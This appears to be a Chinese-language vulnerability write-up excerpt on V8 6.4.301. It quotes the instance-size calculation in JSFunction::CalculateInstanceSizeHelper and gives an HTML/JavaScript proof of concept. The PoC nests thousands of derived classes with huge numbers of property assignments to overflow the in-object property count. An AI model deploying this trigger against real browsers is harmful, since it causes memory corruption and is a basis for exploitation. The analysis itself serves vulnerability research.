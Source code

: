 ### JSFunction::CalculateInstanceSizeHelper

```cpp
// v8 version 6.4.301  src/objects.cc
void JSFunction::CalculateInstanceSizeHelper(InstanceType instance_type,
                                             bool has_prototype_slot,
                                             int requested_embedder_fields,
                                             int requested_in_object_properties,
                                             int* instance_size,
                                             int* in_object_properties) {
  int header_size = JSObject::GetHeaderSize(instance_type, has_prototype_slot);
  DCHECK_LE(requested_embedder_fields,
            (JSObject::kMaxInstanceSize - header_size) >> kPointerSizeLog2);
  *instance_size =
      Min(header_size +
              ((requested_embedder_fields + requested_in_object_properties)
               << kPointerSizeLog2),
          JSObject::kMaxInstanceSize);
  *in_object_properties = ((*instance_size - header_size) >> kPointerSizeLog2) -
                          requested_embedder_fields;
}
```

该函数会计算出对象的instance_size，而instance_size的值来自 `Min(header_size +((requested_embedder_fields + requested_in_object_properties) << kPointerSizeLog2),JSObject::kMaxInstanceSize);`  其中的requested_in_object_properties就是来自前面的expected_nof_properties变量，

poc：

```javascript
<html>
<body>
<script>

const f = eval(`(function f(i) {
	if (i == 0) {
		class Derived extends Object {
			constructor() {
				super();
				${"this.a=1;".repeat(0x3fffe-8)}
			}
		}

		return Derived;
	}

	class DerivedN extends f(i-1) {
		constructor() {
			super();
			${"this.a=1;".repeat(0x40000-8)}
		}
	}

	return DerivedN;
})`);

let a = new (f(0x7ff))();
console.log(a);

</script>
</body>
</html>
```
